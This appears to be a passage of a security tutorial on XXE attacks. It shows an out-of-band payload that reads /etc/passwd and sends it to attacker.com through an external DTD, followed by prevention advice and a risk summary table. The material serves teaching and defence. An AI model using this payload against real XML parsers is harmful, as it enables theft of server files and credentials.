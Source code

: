 
## 🧪 Example: OOB Data Transmission

```xml
<?xml version="1.0"?>
<!DOCTYPE data [
  <!ENTITY % file SYSTEM "file:///etc/passwd">
  <!ENTITY % dtd SYSTEM "http://attacker.com/evil.dtd">
  %dtd;
]>
<data>&exfil;</data>
```

And on `evil.dtd`:

```xml
<!ENTITY exfil SYSTEM "http://attacker.com/?data=%file;">
```

✅ This sends the contents of `/etc/passwd` to `attacker.com` —  **data transmission via XXE** .

---

## 🔐 How to Prevent XXE-Based Data Transmission

### ✅ 1. Disable External Entity Resolution

* Configure XML parsers to disallow `SYSTEM` and `PUBLIC` entities

### ✅ 2. Use Secure Parsers

* Prefer libraries that disable XXE by default (e.g., `defusedxml` in Python)

### ✅ 3. Validate and Sanitize Input

* Reject unexpected XML structures
* Use schemas to enforce safe formats

### ✅ 4. Use JSON Instead of XML

* JSON doesn’t support external entities

### ✅ 5. Monitor and Log

* Detect unusual outbound traffic or XML parsing errors

---

## ✅ Final Summary

| XXE Risk         | Data Transmission Path                  |
| ---------------- | --------------------------------------- |
| File Disclosure  | Local file read via entity              |
| OOB Exfiltration | Remote HTTP request with file content   |
| SSRF             | Internal service access via entity      |
| Credential Theft | Read secrets and send externally        |
| DoS              | Overload parser with recursive entities |
